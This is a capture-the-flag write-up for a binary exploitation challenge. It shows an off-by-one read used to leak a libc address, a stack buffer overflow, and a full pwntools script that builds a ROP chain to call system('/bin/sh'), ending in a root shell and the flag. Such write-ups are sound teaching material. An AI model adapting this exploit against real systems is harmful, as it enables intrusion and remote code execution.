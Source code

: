 ### Writeup
First, let's identify the vulnerable code paths. When reading in the name, there's a typo that makes us write 1 byte outside the name buffer boundary.

```C
if (read(STDIN_FILENO, user.name, sizeof(user.name) + 1) <= 0) {
	perror("read()");
	exit(EXIT_FAILURE);
}
```

Taking a closer look at the `struct user`, we see that this makes it possible to leak the `buf` pointer:

```C
struct user {
	char name[256];
	char *buf;
};
```

While this may not look too useful at first, the `mmap`ed buffer will always be located at the same offset from `libc`, so we got ourselves a nice leak! Let's test it:

```python2
from pwn import *
import binascii

p = process("./lol")
p.recvuntil("Enter name: ")
p.send("A" * 257)
tmp = p.recvuntil("!")

addr = tmp[265:]
addr = addr[:6].ljust(8, "\x00")
addr = u64(addr)
addr -= 0x41 # hex value of 'A'

libc_base = addr - 0x5c8000
log.info("address: {}".format(hex(addr)))
log.info("libc base: {}".format(hex(libc_base)))
```

With this particular setup, the offset from the mmap buffer and libc is `0x5c8000`. **TODO:** show how to figure this out (for now, check out [off.c](src/off.c)).


Running the script a few times, we can see that it works:


```
$ python2 lol.py 
[+] Started program './lol'
[*] address: 0x7f3541061000
[*] libc base: 0x7f3540a99000
[*] Stopped program './lol'
$ python2 lol.py
[+] Started program './lol'
[*] address: 0x7fc06d84b000
[*] libc base: 0x7fc06d283000
[*] Stopped program './lol'
```


Now for the second part of the vulnerability:

```C
ssize_t ret = read(STDIN_FILENO, buf, len);
```

`buf` is only 128 bytes large, but `len` is set to 4096.


`buf` is located at `rbp-0x90`, so write the correct amount of padding to control `rip`.
```
0x000000000040076c <+70>:	lea    rax,[rbp-0x90]
0x0000000000400773 <+77>:	mov    rsi,rax
0x0000000000400776 <+80>:	mov    edi,0x0
0x000000000040077b <+85>:	call   0x4005d0 <read@plt>
```

Add this to the script:
```python2
pad = "A" * 152
p.sendline(pad + "CCCCCCCC")

p.interactive()
```

```
$ python2 lol.py
[+] Started program './lol'
[*] address: 0x7f15f852e000
[*] libc base: 0x7f15f7f66000
[*] Switching to interactive mode

Enter a message: [*] Program './lol' stopped with exit code -11
[*] Got EOF while reading in interactive

$ gdb ./lol 32641.core 
Core was generated by `./lol'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004007c5 in read_user_input ()
gdb-peda$ x/i $rip
=> 0x4007c5 <read_user_input+159>:	ret    
gdb-peda$ x/2xw $rsp
0x7fff39727948:	0x43434343	0x43434343
```

We now have full control over `rip`! Time to find some gadgets.


```
$ ROPgadget --binary libc-2.19.so > gadgets
$ cat gadgets|grep ": pop rdi ; ret"
0x0000000000022482 : pop rdi ; ret
$ strings -t x libc-2.19.so|grep /bin/sh
 163b00 /bin/sh
$ nm -D libc-2.19.so|grep system
0000000000041570 T __libc_system
0000000000114340 T svcerr_systemerr
0000000000041570 W system
```

This should be enough to set up our ROP chain to call `system("/bin/sh");`. Full script:

```python2
from pwn import *
import binascii

p = remote("127.0.0.1", 7777)
p.recvuntil("Enter name: ")
p.send("A" * 257)
tmp = p.recvuntil("!")

addr = tmp[265:]
addr = addr[:6].ljust(8, "\x00")
addr = u64(addr)
addr -= 0x41 # hex value of 'A'

libc_base = addr - 0x5c8000
log.info("address: {}".format(hex(addr)))
log.info("libc base: {}".format(hex(libc_base)))

pop_rdi = libc_base + 0x22482
bin_sh = libc_base + 0x163b00
system_addr = libc_base + 0x41570

rop_chain = p64(pop_rdi)
rop_chain += p64(bin_sh)
rop_chain += p64(system_addr)

pad = "A" * 152
p.sendline(pad + rop_chain)

p.interactive()
```

Let's run it!
```
python2 lol.py
[+] Opening connection to 127.0.0.1 on port 7777: Done
[*] address: 0x7f7011b5f000
[*] libc base: 0x7f7011597000
[*] Switching to interactive mode

Enter a message: $ id
uid=0(root) gid=0(root) groups=0(root)
$ find / -name flag
$ find / -name flag*
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu0/domain1/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain1/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain1/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain1/flags
/root/flag.txt
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
$ cat /root/flag.txt
TG16{ROP_master-3000_destr0yer_of_libC}
````
